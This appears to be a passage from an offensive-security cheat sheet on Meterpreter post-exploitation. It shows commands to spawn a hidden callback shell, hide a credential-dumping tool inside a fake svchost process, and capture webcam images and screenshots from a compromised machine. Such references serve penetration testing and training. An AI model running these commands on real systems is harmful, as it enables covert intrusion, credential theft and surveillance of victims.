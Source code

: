 #### 2.1.5 - Execute Process

##### 2.1.5.1 - Help Menu

```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.

OPTIONS:

    -a   The arguments to pass to the command.
    -c   Channelized I/O (required for interaction).
    -d   The 'dummy' executable to launch when using -m.
    -f   The executable command to run.
    -h   Help menu.
    -H   Create the process hidden from view.
    -i   Interact with the process after creating it.
    -k   Execute process on the meterpreters current desktop
    -m   Execute from memory.
    -p   Execute process in a pty (if available on target platform)
    -s   Execute process in a given session as the session user
    -t   Execute process with currently impersonated thread token
    -z   Execute process in a subshell
```

##### 2.1.5.2 - Usage

* **Spawn Callback Shell**

`meterpreter > execute -Hicf shell.exe`

* **Dummy Process**

`meterpreter > execute -Hicmd svchost.exe -f /usr/share/windows-resources/wce/wce64.exe -a "-h"`

#### 2.1.6 - WireTap

##### 2.1.6.1 - Webcam

`meterpreter > webcam_list`

`meterpreter > webcam_snap -h`

`meterpreter > webcam_snap -i <device_ID> -p /path/to/file.png`

`meterpreter > webcam_stream -h`

##### 2.1.6.2 - Screenshots

1. **Screenshot**
 
```
meterpreter > screenshot -h
Usage: screenshot [options]

Grab a screenshot of the current interactive desktop.

OPTIONS:

    -h   Help Banner.
    -p   The JPEG image path (Default: 'jevmzGjE.jpeg')
    -q   The JPEG image quality (Default: '50')
    -v   Automatically view the JPEG image (Default: 'false')

meterpreter > screenshot -p /home/user/pic.jpeg -q 100

meterpreter > screenshare -h
Usage: screenshare [options]
```